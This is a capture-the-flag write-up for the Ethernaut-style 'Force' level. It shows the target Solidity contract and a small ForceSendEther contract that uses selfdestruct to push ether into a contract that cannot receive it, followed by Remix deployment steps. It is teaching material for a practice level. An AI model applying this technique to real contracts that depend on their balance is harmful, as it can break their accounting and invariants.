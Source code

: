 # 07 Force

```
The goal of this level is to make the balance of the contract greater than zero.
```
####  code
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}

```

#### Start 


### (1) ` make the balance of the contract greater than zero`

The hint he tells us about  self destroying 

Looking at the code, You can see  the contract have nothing, then you can't send ether because there is no `fallback()` or `recive()` function.

#### `selfdestruct()` 

`selfdestruct()` can be deleted contract from the blockchain and sends all remaining Ether in their contract to another contract

how do we do

.

.

.


.

.

.


Have to write a new contract with the function `selfdestruct()` and send ether into that contract then call `selfdestruct()`.

#### This is the code I used to Force  send ether
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract ForceSendEther {
  
    function forceSendEther(address payable _to) public payable {
       selfdestruct((_to));
    }

}

```

Use remix deploy contract `ForceSendEther`  then call the function `forceSendEther(address payable _to) public payable` 

enter the input argument as the address to which you want to send ether and confirm transaction

.

.  then

.

Click button Submit instance and confirm transaction

# !!! we passed !!!


